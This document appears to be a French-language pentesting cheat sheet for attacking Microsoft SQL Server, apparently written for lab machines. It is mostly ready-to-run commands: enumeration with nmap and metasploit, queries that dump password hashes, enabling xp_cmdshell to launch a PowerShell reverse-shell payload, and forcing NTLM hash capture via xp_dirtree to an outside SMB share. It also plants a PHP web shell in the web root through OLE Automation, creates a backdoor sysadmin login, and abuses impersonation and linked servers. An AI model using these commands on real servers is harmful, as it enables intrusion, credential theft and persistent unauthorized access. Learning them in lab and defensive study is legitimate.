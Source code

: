 ```yaml
---
public: true 
#Tags: vhost, hashes, lfi, password-spraying, potato
---
```


Port : 1433

## Enumeration

### Sans accès initial

#### nmap
```shell-session
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET_IP
```

#### metasploit
```shell-session
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248

rhosts => 10.129.201.248


msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 10.129.201.248:       - SQL Server information for 10.129.201.248:
[+] 10.129.201.248:       -    ServerName      = SQL-01
[+] 10.129.201.248:       -    InstanceName    = MSSQLSERVER
[+] 10.129.201.248:       -    IsClustered     = No
[+] 10.129.201.248:       -    Version         = 15.0.2000.5
[+] 10.129.201.248:       -    tcp             = 1433
[+] 10.129.201.248:       -    np              = \\SQL-01\pipe\sql\query
[*] 10.129.201.248:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Avec accès 

Si on dispose d'un accès via un des outils présentés plus bas sur cette page, on pourra utiliser les commandes suivantes pour découvrir l'environnement de base de données accessible.

#### Requêtes utiles

##### Informations générales
```sql
-- Get version
select @@version;
-- Get user
select user_name();
select SYSTEM_USER;
-- List admin users
select name,type_desc,is_disabled FROM master.sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1 ORDER BY name;
-- Check if we are sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin'); -- retourne 0 si nous ne sommes pas membre
--
-- List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

-- List users that current user can impersonate 
--    if found : we need to impersonate each user available and enumerate again (see Exploitation below to see how to impersonate)
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';


-- List Linked servers
SELECT srvname, isremote FROM sysservers WHERE isremote = 0; -- 0 means linked server
EXEC sp_linkedservers
SELECT * FROM sys.servers;

```

Si un serveur lié (Linked Server) est découvert, on pourra tenter d'y accéder, vérifier si nous disposons de privilèges différents sur celui-ci. Voir la partie `Exploitation` plus bas sur cette page.

##### Exploration de l'instance de base de donnée
```
-- Get databases
select name from sys.databases;
SELECT name FROM master.dbo.sysdatabases;

-- Use database
USE master;

-- Get table names
SELECT table_name FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## Outils utiles

#### sqlcmd (Windows)

Utilitaire installer avec SQLServer
Il faudra ajouter le mot clé `GO` à chaque requête afin qu'elle soit exécutée.
```
# -y 30 -Y 30 augmentent la visibilité des résultat (attention aux performances)
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30

# ATTENTION : cet utilitaire nécessite la saisie du mot GO à la ligne terminant chaque requête ! (pas besoin de ';' dans cet outil)
```

#### sqsh (Linux)

Equivalent de sqlcmd sous Windows, pour Linux.
Comme sous windows, on ajoutera le mot clé `GO` à chaque requête afin qu'elle soit exécutée.

```
# Authentificatino Interne (SQL Server)
sqsh -S $TARGET_IP -U $AD_USER -P $AD_PASSWORD

# Authentification locale ou domaine
sqsh -S $TARGET_IP -U .\\$AD_USER -P $AD_PASSWORD 
```

#### Mssqlclient.py (impacket)

**Attention** : ce client n'accepte pas les requêtes sur plusieurs lignes.

```sql
-- Internal Authentication (no fomzin prefix)
mssqlclient.py -p 1433  $USER:$PASS@$TARGET_IP 

--
mssqlclient.py Administrator@10.129.201.248 -windows-auth

-- Local workstation account authentication (no need to add WIN-02 to hosts)
mssqlclient.py -p 1433 -windows-auth WIN-02/mssqlsvc:princess1@$TARGET_IP      
```

## Commandes utiles


### Exploitation

#### Exécution de commandes (xp_cmdshell)

```
------------------------------------------------------------------------
-- Tentative d activation de xp_cmdshell  (si droits suffisants)
-- Allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE

--  Execution de commande (after enabling it)
xp_cmdshell 'whoami';
xp_cmdshell 'powershell -e <hoaxshell payload>';
```

#### Capture de Hash

```
-- XP_DIRTREE
EXEC master..xp_dirtree '\\10.10.110.17\share\'

-- XP_SUBDIRS
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```


#### Ecriture dans un fichier
```
------------------------------------------------------------------------
-- Creation de fichier via OLE Automation Procedures
-- Activation
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
-- Création de fichier
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### Lecture d'un fichier
```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

#### Création de compte
```sql
------------------------------------------------------------------------
-- Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!';
EXEC sp_addsrvrolemember 'hacker', 'sysadmin';
```

#### User Impersonate

Si l'énumération présentée plus haut nous liste des utilisateurs que l'on peut "impersonate" (usurper l'identité), on peut alors utiliser les commande

```
-- Exploitation
user master; -- db sur laquelle on est sur d'avoir les droits
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
REVERT; -- retourne aux droits précédents
```

### Linked Server
Si on a un serveur lié (voir énumération sur cette page), on peut exécuter des requêtes à distance sur cette machine :

```
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```




There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.